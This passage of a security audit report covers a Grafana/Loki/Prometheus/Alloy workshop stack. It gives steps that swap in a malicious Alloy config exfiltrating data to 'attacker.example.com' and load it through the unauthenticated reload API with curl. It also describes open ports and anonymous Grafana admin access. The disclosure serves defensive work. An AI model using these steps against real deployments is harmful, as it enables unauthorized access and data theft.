        - Create a file named `malicious_config.alloy` with content designed to exfiltrate data to an attacker-controlled endpoint (e.g., using `remote.http` to send data to `http://attacker.example.com:3100/loki/api/v1/push`).
        - Replace the original `config.alloy` file mounted into the Grafana Alloy container with `malicious_config.alloy`.
        - Repeat step 3: `curl -X POST http://localhost:12345/-/reload`.
        - Observe network traffic to `attacker.example.com:3100` to verify data exfiltration or check Alloy logs for errors and confirmation of the new configuration being loaded.

This test case definitively proves that the Grafana Alloy reload API is accessible without authentication in the default setup, allowing for configuration injection and the severe impacts associated with it.

### 2. Unauthenticated Access to Monitoring Stack Components

- **Description:**
    1. The Docker Compose configuration provided for the workshop deploys Grafana, Loki, Prometheus, and Alloy without any authentication enabled by default.
    2. By deploying the stack and accessing the exposed ports for each component (Grafana: 3000, Loki: 3100, Prometheus: 9090, Alloy: 12345), an attacker can gain full access to the UIs and APIs of these services without providing any credentials.
    3. Specifically, accessing the Grafana UI at `http://<host>:3000`, Loki API at `http://<host>:3100`, Prometheus UI at `http://<host>:9090`, and Alloy UI at `http://<host>:12345` reveals that these interfaces are publicly accessible without any login requirements.
    4. Furthermore, Grafana is configured with anonymous admin access enabled, granting extensive privileges to any unauthenticated user accessing the Grafana UI.

- **Impact:**
    - **Unauthorized Access to Sensitive Data:** Attackers can gain complete access to monitoring dashboards in Grafana, allowing them to view metrics, logs, and potentially other sensitive information collected by the monitoring stack. This includes application performance data, system metrics, and logs that may contain sensitive business or technical details.
    - **Information Disclosure:** Monitoring data can contain sensitive information about the application, infrastructure, and user activity. Unauthenticated access leads to significant information disclosure, potentially aiding further attacks.
    - **Grafana Admin Access:** Grafana is configured with `GF_AUTH_ANONYMOUS_ORG_ROLE=Admin`, granting anonymous users administrator privileges. This allows attackers to modify dashboards, data sources, alerts, and user settings within Grafana, potentially disrupting monitoring operations, manipulating data visualization, or using Grafana as a pivot point for further attacks by adding malicious plugins or data sources.
    - **Loki and Prometheus Data Access:** Unauthenticated access to Loki and Prometheus allows attackers to directly query logs and metrics. This can be used to gather detailed information about system performance, errors, and security-related events, potentially uncovering vulnerabilities or sensitive operational details.
    - **Alloy UI Access:** Unauthenticated access to Alloy UI exposes the configuration and operational status of the Alloy agent. This can be leveraged to understand the monitoring setup, identify potential weaknesses, and potentially manipulate the monitoring configuration if other vulnerabilities are present (like the reload API vulnerability).

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:**
    - None. The provided Docker Compose and configuration files do not implement any authentication or access control mechanisms for Grafana, Loki, Prometheus, or Alloy UI. The default configurations are explicitly set to disable or bypass authentication in some cases (e.g., Grafana anonymous access, Loki authentication disabled).
